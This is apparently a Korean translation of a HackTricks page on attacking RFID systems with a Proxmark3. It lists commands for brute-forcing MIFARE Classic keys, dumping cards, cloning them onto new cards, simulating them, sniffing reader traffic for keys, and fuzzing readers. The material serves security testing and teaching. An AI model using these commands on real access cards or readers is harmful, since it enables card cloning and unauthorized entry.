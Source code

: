 # Proxmark 3

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Proxmark3로 RFID 시스템 공격하기

가장 먼저 해야 할 일은 [**Proxmark3**](https://proxmark.com)를 가지고 [**소프트웨어와 그 의존성 설치하기**](https://github.com/Proxmark/proxmark3/wiki/Kali-Linux)[**s**](https://github.com/Proxmark/proxmark3/wiki/Kali-Linux)입니다.

### MIFARE Classic 1KB 공격하기

**16개의 섹터**가 있으며, 각 섹터는 **4개의 블록**을 가지고 있고 각 블록은 **16B**를 포함합니다. UID는 섹터 0 블록 0에 있으며 (변경할 수 없습니다).\
각 섹터에 접근하려면 **2개의 키** (**A**와 **B**)가 필요하며, 이 키는 **각 섹터의 블록 3**에 저장되어 있습니다 (섹터 트레일러). 섹터 트레일러는 또한 **읽기 및 쓰기** 권한을 부여하는 **접근 비트**를 저장합니다.\
2개의 키는 첫 번째 키를 알고 있으면 읽기 권한을 부여하고 두 번째 키를 알고 있으면 쓰기 권한을 부여하는 데 유용합니다 (예를 들어).

여러 가지 공격을 수행할 수 있습니다.
```bash
proxmark3> hf mf #List attacks

proxmark3> hf mf chk *1 ? t ./client/default_keys.dic #Keys bruteforce
proxmark3> hf mf fchk 1 t # Improved keys BF

proxmark3> hf mf rdbl 0 A FFFFFFFFFFFF # Read block 0 with the key
proxmark3> hf mf rdsc 0 A FFFFFFFFFFFF # Read sector 0 with the key

proxmark3> hf mf dump 1 # Dump the information of the card (using creds inside dumpkeys.bin)
proxmark3> hf mf restore # Copy data to a new card
proxmark3> hf mf eload hf-mf-B46F6F79-data # Simulate card using dump
proxmark3> hf mf sim *1 u 8c61b5b4 # Simulate card using memory

proxmark3> hf mf eset 01 000102030405060708090a0b0c0d0e0f # Write those bytes to block 1
proxmark3> hf mf eget 01 # Read block 1
proxmark3> hf mf wrbl 01 B FFFFFFFFFFFF 000102030405060708090a0b0c0d0e0f # Write to the card
```
Proxmark3는 **태그와 리더 간의 통신을 도청**하여 민감한 데이터를 찾는 등의 다른 작업을 수행할 수 있습니다. 이 카드에서는 통신을 스니핑하고 사용된 키를 계산할 수 있습니다. 왜냐하면 **사용된 암호화 작업이 약하기** 때문에 평문과 암호문을 알면 이를 계산할 수 있습니다(`mfkey64` 도구).

### Raw Commands

IoT 시스템은 때때로 **브랜드가 없거나 상업적이지 않은 태그**를 사용합니다. 이 경우 Proxmark3를 사용하여 태그에 사용자 정의 **원시 명령을 전송**할 수 있습니다.
```bash
proxmark3> hf search UID : 80 55 4b 6c ATQA : 00 04
SAK : 08 [2]
TYPE : NXP MIFARE CLASSIC 1k | Plus 2k SL1
proprietary non iso14443-4 card found, RATS not supported
No chinese magic backdoor command detected
Prng detection: WEAK
Valid ISO14443A Tag Found - Quiting Search
```
이 정보를 통해 카드에 대한 정보와 카드와 통신하는 방법을 검색할 수 있습니다. Proxmark3는 다음과 같은 원시 명령을 전송할 수 있습니다: `hf 14a raw -p -b 7 26`

### Scripts

Proxmark3 소프트웨어에는 간단한 작업을 수행하는 데 사용할 수 있는 **자동화 스크립트**의 미리 로드된 목록이 포함되어 있습니다. 전체 목록을 검색하려면 `script list` 명령을 사용하십시오. 다음으로, `script run` 명령을 사용하고 스크립트의 이름을 입력하십시오:
```
proxmark3> script run mfkeys
```
당신은 **태그 리더**를 **퍼즈**하기 위한 스크립트를 만들 수 있습니다. 유효한 **카드**의 데이터를 복사하려면, 하나 이상의 무작위 **바이트**를 **무작위화**하고 각 반복에서 **리더가 충돌하는지** 확인하는 **Lua 스크립트**를 작성하세요.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
